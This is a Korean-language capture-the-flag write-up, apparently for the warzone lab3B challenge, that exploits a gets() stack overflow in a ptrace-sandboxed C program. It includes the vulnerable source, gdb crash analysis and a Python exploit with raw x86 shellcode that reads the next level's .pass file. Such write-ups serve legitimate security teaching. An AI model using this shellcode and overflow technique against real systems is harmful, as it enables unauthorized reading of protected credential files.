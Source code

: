 ## 1. 문제 확인
- ID : lab3B
- Target : /level/lab03/lab3B
- flag : /home/lab3A/.pass
```
	lab3B@warzone:/levels/lab03$ ./lab3B
	just give me some shellcode, k
	g4nzzi
	child is exiting...
	lab3B@warzone:/levels/lab03$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
```c
	#include <signal.h>
	#include <assert.h>
	#include <stdlib.h>
	#include <stdio.h>
	#include <unistd.h>
	#include <sys/ptrace.h>
	#include <sys/reg.h>
	#include <sys/prctl.h>
	#include <wait.h>
	#include "utils.h"

	ENABLE_TIMEOUT(60)

	/* gcc -z execstack -fno-stack-protector -o lab3B lab3B.c */

	/* hint: write shellcode that opens and reads the .pass file.
		ptrace() is meant to deter you from using /bin/sh shellcode */

	int main()
	{
    	pid_t child = fork();
    	char buffer[128] = {0};
    	int syscall = 0;
    	int status = 0;

    	if(child == 0)
    	{
        	prctl(PR_SET_PDEATHSIG, SIGHUP);
        	ptrace(PTRACE_TRACEME, 0, NULL, NULL);

        	/* this is all you need to worry about */
        	puts("just give me some shellcode, k");
        	gets(buffer);
    	}
    	else
    	{
        	/* mini exec() sandbox, you can ignore this */
        	while(1)
        	{
            	wait(&status);
            	if (WIFEXITED(status) || WIFSIGNALED(status)){
                	puts("child is exiting...");
                	break;
            	}

            	/* grab the syscall # */
            	syscall = ptrace(PTRACE_PEEKUSER, child, 4 * ORIG_EAX, NULL);

            	/* filter out syscall 11, exec */
            	if(syscall == 11)
            	{
                	printf("no exec() for you\n");
                	kill(child, SIGKILL);
                	break;
            	}
        	}
    	}

    	return EXIT_SUCCESS;
	}
```
### 2.2 Code 분석
- 힌트를 보면 .pass 파일을 열고 읽는 쉘코드를 사용하라고 가이드
```c
	/* hint: write shellcode that opens and reads the .pass file.
		ptrace() is meant to deter you from using /bin/sh shellcode */
```
- 부모 프로세스는 ptrace() 함수를 통해 자식 프로세스의 exec 시스템콜은 실행하지 못하도록 필터링
```c
	...
    	/* grab the syscall # */
        syscall = ptrace(PTRACE_PEEKUSER, child, 4 * ORIG_EAX, NULL);
        
        /* filter out syscall 11, exec */
       	if(syscall == 11)
       	{
           	printf("no exec() for you\n");
           	kill(child, SIGKILL);
           	break;
       	}
    ...
```
- 자식 프로세스의 경우, buffer 사이즈가 128byte이지만 gets()함수에서 입력값 제한이 없으므로 overflow 발생
```c
	char buffer[128] = {0};
  ...
  puts("just give me some shellcode, k");
  gets(buffer);
  ...
```
- overflow 시 crash가 발생되는 위치를 확인하기 위해 임의값 128byte + 알파벳 패턴으로 입력 데이터를 만듬
```python
	data = ''
	for i in range(26):
        data += chr(i+0x41)*4

	print("a"*128 + data)
```
```
	lab3B@warzone:/levels/lab03$ python /tmp/lab3b.py > /tmp/lab3b_input
	lab3B@warzone:/levels/lab03$
```
- 입력 데이터를 사용하여 실행하면 overflow에 의해 리턴 주소에서 crash가 발생되고, 발생 위치는 'HHHH'(0x48484848)로 확인됨
```
	gdb-peda$ r < /tmp/lab3b_input
	Starting program: /levels/lab03/lab3B < /tmp/lab3b_input
	[New process 16010]
	just give me some shellcode, k
	Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/libc-2.19.so...done.
	Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/ld-2.19.so...done.

	Program received signal SIGSEGV, Segmentation fault.
	...
  Stopped reason: SIGSEGV
	0x48484848 in ?? ()
	gdb-peda$
```
```
	|-------------------- 156 byte -------------------|
	[aaaaaaaa...aaaaaaaa][AAAABBBBCCCCDDDDEEEEFFFFGGGG][HHHH]
        buffer(128)               dummy(28)            ret
```
- crash 발생 시점의 buffer 변수의 주소는 0xbffff640 이므로, 해당 위치에 쉘코드를 입력하고 리턴주소로 사용하면 쉘코드 실행 가능
```
	[Switching to process 16083]
	[----------------------------------registers-----------------------------------]
	EAX: 0x0
	EBX: 0x45454545 ('EEEE')
	ECX: 0xfbad2088
	EDX: 0xb7fce8a4 --> 0x0
	ESI: 0x0
	EDI: 0x46464646 ('FFFF')
	EBP: 0x47474747 ('GGGG')
	ESP: 0xbffff6e0 ("IIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
	EIP: 0x48484848 ('HHHH')
	EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
  ...
```
```
	gdb-peda$ x/s 0xbffff640
	0xbffff640:     'a' <repeats 128 times>, "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"...
```

<br/><br/>
## 3. Exploit
- "/home/lab3A/.pass" 파일을 읽는 쉘코드와 리턴주소까지 포함된 입력 데이터를 생성하는 코드를 작성
```python
	shellcode = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff" + "/home/lab3A/.pass\x00"

	print("\x90"*(128-len(shellcode)) + shellcode + "\x90"*28 + "\x40\xf6\xff\xbf")
```
```
	* 쉘코드 참조 : http://shell-storm.org/shellcode/files/shellcode-73.html
```
- 생성된 입력 데이터로 프로그램을 실행하면 "/home/lab3A/.pass" 파일 내용이 출력됨
  (※ GDB 환경에서의 리턴주소와 실제 프로그램 실행 시 리턴주소는 약간의 차이가 있음)
```
	lab3B@warzone:/levels/lab03$ python /tmp/lab3b.py > /tmp/lab3b_input
	lab3B@warzone:/levels/lab03$ ./lab3B < /tmp/lab3b_input
	just give me some shellcode, k
  [/home/lab3A/.pass 파일 내용 출력]
  child is exiting...
	lab3B@warzone:/levels/lab03$
```
